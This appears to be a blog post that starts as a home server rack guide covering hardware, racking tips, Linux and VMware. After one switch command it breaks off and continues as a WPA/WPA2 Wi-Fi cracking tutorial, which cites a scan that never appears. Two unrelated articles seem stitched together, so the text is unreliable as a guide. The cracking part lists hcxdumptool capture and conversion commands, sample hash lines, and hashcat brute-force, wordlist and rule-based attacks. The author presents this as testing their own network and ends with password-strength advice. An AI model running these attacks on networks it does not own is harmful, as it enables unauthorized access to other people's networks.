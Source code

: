 ```yaml
---
title: Let’s Build a Home Server Rack
author:
  name: Hieu Huynh
  link: https://github.com/hhuynh15
date: 2022-11-05 04:21:00 -0700
categories: [Guides, Homelabs]
tags: [Instructional, Guides, Networking, Linux, VMWare, Cisco, Homelab, Server]
image: 
  src: /GpzzpOJ.jpg
  width: 1200
  height: 675
---
```


# Introduction
---

Building a home server rack is a great way to expand your knowledge in network and server administration, and gain hands-on experience with enterprise-level technologies. By using Linux, VMware, and Cisco switches you can build a robust and flexible home lab environment that simulates a real-world IT infrastructure. In this guide, we will outline the steps involved in building a home server rack and provide detailed information on the hardware and software components used.

# Gathering the Hardware
---

The first step in building a home server rack is to gather the necessary hardware. You will need:

- A server rack: This can be a standalone rack or a cabinet that can accommodate multiple servers and switches. The size of the rack will depend on the number of servers and switches you plan to use. For a home lab, a 10U server rack should be sufficient.
- Servers: You can use one or multiple servers, depending on your needs. For a home lab, an Intel NUC or a small form-factor PC can work well. The servers should have sufficient RAM and storage to accommodate the virtual machines you plan to run.
- Switches: You can use any switch but today we will be focusing on Cisco switches as they are the most commonly used switches in the industry and are a good place to start practicing routing and switching protocols. For a home lab, you can use Cisco Catalyst 2960 and if you have Juniper switches on hand you can use those as well. For the most part these switches are the same but may have different command line syntax. These switches are compact and have a limited number of ports, making them ideal for a home lab environment.
- Cables: You will need Ethernet cables to connect the switches and servers to each other, and power cables to power the servers. The cables should be of the appropriate length to reach from the servers to the switches, and from the switches to the power outlets.

When building your rack and racking your servers and switches. I have a few pointers for best practices:


- Build your rack from the ground up: Stack your servers starting from the ground and place subsequent servers on top. Have your switches at the top of the rack. Larger servers will require two people to help rack and should be racked first. Don’t be afraid to ask for help.
- Know the physical dimensions of your components: Keep in mind the length and depth of your server rack. Although most racks will allow you to adjust its dimensions. You don’t want to be rebuilding an entire rack to make a two inch adjustment.
- Leave room to cable manage: It’s easy to want to maximize the space in your rack and not leave a lot of room in the back of your rack. But having good cable management will make it easier for you to make modifications to your rack in the future. It also allows for better ventilation for your equipment.
- Have cable management accessories: Cable management accessories are great for easier cable management. I would recommend a 1U cable management unit and plenty of velcro ties. I would not recommend using zip ties as they are difficult to work with when you need to make modifications.

Here is an example build from my own server rack:

![Advanced Window](/Fiysyq0.png){: width="700" height="400" }

# Installing Linux and VMware
---

Once you have the hardware, you can install Linux and VMware on the servers. For Linux, you can use Ubuntu or CentOS, both of which are popular distributions for server administration. You can download the ISO image of the distribution from the official website and install it on the servers using a bootable USB drive.

For VMware, you can use vSphere, which is a virtualization platform that allows you to run multiple virtual machines on a single physical server. You can download a trial version of vSphere from the VMware website and install it on the servers. After installation, you can configure vSphere to manage the virtual machines and allocate resources, such as RAM and storage, to each virtual machine.

# Configure the Switches

Let’s start by connecting to our switch either through a console connection or SSH/telnet. Next enter global configuration mode by typing:

```c
configure terminal
```

# Making the Hash File and Cracking It

Next, we will need to convert the newly created pcap file we just made from the scan into a format that can be processed by hashcat.

```bash
sudo hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

Agains the `-o` flag will output the file as `hash.hc22000` and the `-E` flag will output the collected ESSIDs into a list. Now that we have the necessary files we can start cracking. Remember to do this on a computer with a sufficiently powerful GPU otherwise it will take you hours to crack the simplest of passwords. Since we are attempting to penetrate our own network for this example, we have set the password to all digits to show the speed and efficiency at which we can crack a simple password like this.

Before we can start cracking we need to specify which network we want to crack by removing every other network we found in the last scan. Use the following command to help find the mac address:

```bash
sudo hcxdumptool --do_rcscan -i wlan0
```
Use `Ctrl-C` to exit the scan. On the left side you will see the BSSID of the network. That is what you will need to identify your network. Match it with the ESSID and write down the information before proceeding.

Open up your `hash.hc22000` file with a text editor, it should look something like this:

```
WPA*02*b38d2a7c87aa0864201c41eaac3bd074*20becd364387*3420037d4435*4b6569746857696669*082b00483ffa60261b82837a38916fb92e4e0d81608343c95f2d97a978c449ed*0103007502010a00000000000000000001eb021bf76d5b9a03965527c2796825b9e268e7cdccc4f4603dce98b894613612000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac020000*02
WPA*02*fdf01f941daddca2bd780d2f2a6f5711*20becd364387*3c846ae3aeb6*4b6569746857696669*72cc768ae878785bf30c22e54cc23e21362e7fbd3597d92e7bf43b88889b8ef7*0103007502010a0000000000000000fa12f4345f77049ab5a66ce61f600af4cdcf0c28104bcbbb9b17e941949249746dd2000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac020000*10
WPA*02*0b4838355821f9625ca3971d6e40c934*20becd364387*3c846ae3cfcd*4b6569746857696669*72cc768ae878785bf30c22e54cc23e21362e7fbd3597d92e7bf43b88889b8ef7*0103007502010a0000000000000000fa12f852203ce4dd9ff5196d583503e10c476f203bcf5d9223ba5cecfa434910f432000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac020000*10
WPA*02*9c465e97913d7c93ea37023392303428*20becd364387*6038e0edd011*4b6569746857696669*72cc768ae878785bf30c22e54cc23e21362e7fbd3597d92e7bf43b88889b8ef7*0103007502010a0000000000000000fa1225873e630b8cf46ea6eaac659603576b6dbd1e3e3640e2931ca37ce3f0b1d24d000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac020000*10
```

Delete all the lines that **do not** contain your target BSSID. Save the file and it will be what you will use to perform the attack.

We will demonstrate multiple attack vectors for cracking this hash. Firstly, we will try cracking only digits:

```bash
sudo hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```

The first flag in this command, `-m` will specify the hashmode to use for this attack. Since we will be cracking WPA/WPA2 we will be specifying `22000` for the mode. You can find a full list of different hashmodes [here](https://hashcat.net/wiki/doku.php?id=example_hashes). The next flag is the `-a` flag and will specify the attack mode for this command execution. For this example we will be doing a brute force attack which will iterate through every possible variation to find the right combination so we will set the attack mode to `3`. You can read more about the different attack modes [here](https://hashcat.net/wiki/doku.php?id=hashcat). And finally the `?d` at the end of the command specifies which character type to try when performing the attack. There are four different character types: digits, uppercase, lowercase, and special characters. The `?d` denotes digits. We will try an alphanumeric attack in a later example.

If you have any additional information that might help narrow down the attack be sure to take advantage of it as it could make the difference between waiting a week for the password to get cracked to a few hours. To give an example, an offensive security expert went around sniffing for wireless passwords and was able to crack a good amount of them by only guessing ten digit numbers cause many people were using their phone numbers as their passwords. Below we will show examples of different attack vectors and ways you can narrow your search.

# Different Brute Force Attacks

## Using a Wordlist

A wordlist is a preset list of common passwords also known as a dictionary attack. A list of common wordlists can be found in Kali under `/usr/share/wordlists/` but it can also be downloaded from [here](https://github.com/00xBAD/kali-wordlists).

```bash
hashcat -m 22000 hash.hc22000 wordlist.txt
```

## Brute Forcing Alphanumeric and Special Character Passwords

The following command will brute force a password with digits, lowercase, upercase and special characters:

```bash
hashcat -m 22000 hash.hc22000 -1 ?d?l?u?s -a 3 ?1?1?1?1?1?1?1?1
```

## Rule-based Attack

This is similar to a dictionary attack but the commands look a bit different:

```bash
hashcat -m 22000 hash.hc22000 -r rules/best64.rule cracked.txt.gz
```

This will mutate the wordlist with best 64 rules, which comes with the hashcat distribution. Change as necessary and remember, the time it will take the attack to finish will increase proportionally with the amount of rules.

# Getting Your Results and Conclusion

If your attack was a success you will find the cracked password in a `.potfile` or you can type out the same cracking parameters again but tagging `--show` at the end.

These are some of the most basic techniques a hacker can use to try to get into your network. Even if WPA/WPA2 is considered a secure way of protecting your network. It can easily be broken into if you don't have an equally secure password as well. Over time cracking and brute forcing methods will only get faster and more efficient so the need for a strong password becomes increasingly necessary.

As demonstrated above it is easier to crack a sophisticated but short password than it is to crack a long but easy to remember password. A password containing 8 random characters like this `1S7Hd8@3` will be incredibly hard for a human to guess but incredibly easy for a computer to guess. Even a password that uses a common phrase like `DrinkLots_OfWater825` will take a computer hundreds of years to guess. So in this instance, size does matter.

